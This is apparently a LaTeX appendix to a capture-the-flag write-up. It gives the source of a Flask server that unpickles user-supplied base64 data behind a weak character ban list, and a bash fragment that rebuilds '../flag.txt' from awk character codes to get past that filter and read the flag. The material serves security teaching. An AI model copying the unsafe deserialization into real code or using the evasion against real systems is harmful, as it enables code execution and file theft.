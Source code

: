 \documentclass{article}
\begin{document}
\section{Challenges Server Source Code} \label{sec:chall_sourcecode}
\begin{lstlisting}[language=Python]
from flask import Flask, request, render_template_string
import pickle
import os
import base64

app = Flask(__name__)

app.secret_key = os.urandom(24)

@app.route('/')
def index():
    # check github for full html, not relevant for this attack
    return render_template_string("""....""")

#this is the route I attacked
@app.route('/deserialize', methods=['POST'])
def deserialize():
    pickled_data = request.form['data']
    
    try:
        pickled_bytes = base64.b64decode(pickled_data)
        ban=[b".",b"/",b"\\"]

        for pattern in ban:
            if pattern in pickled_bytes:
                raise ValueError(f"Payload contains banned characters! {pattern}")
        obj = pickle.loads(pickled_bytes) # vuln here
        
        return render_template_string("""
            <div class="container">
                <h1>Deserialized Object</h1>
                <div class="output">{{ obj }}</div>
                <a href="/">Go back</a>
            </div>
        """, obj=obj)
    except Exception as e:
        return render_template_string("""
            <div class="container">
                <h1>Error</h1>
                <div class="output">{{ error_message }}</div>
                <a href="/">Go back</a>
            </div>
        """, error_message=str(e))

if __name__ == '__main__':
    app.run(debug=False)
    
\end{lstlisting}



\section{Full Solution Source Code} \label{sec:sourcecode}
\begin{lstlisting}[language=Bash]
#substr.sh
#the range for the substring will be appended py the python script
#newlines and indents added for readabilty, original without newlines
#expr substr cat ../flag.txt
expr substr $(
    cat
        $(awk 'BEGIN{printf "%c", 46}')
        $(awk 'BEGIN{printf "%c", 46}')
        $(awk 'BEGIN{printf "%c", 47}')
        flag
        $(awk 'BEGIN{printf "%c", 46}')
        txt
)
\end{lstlisting}
\end{document}
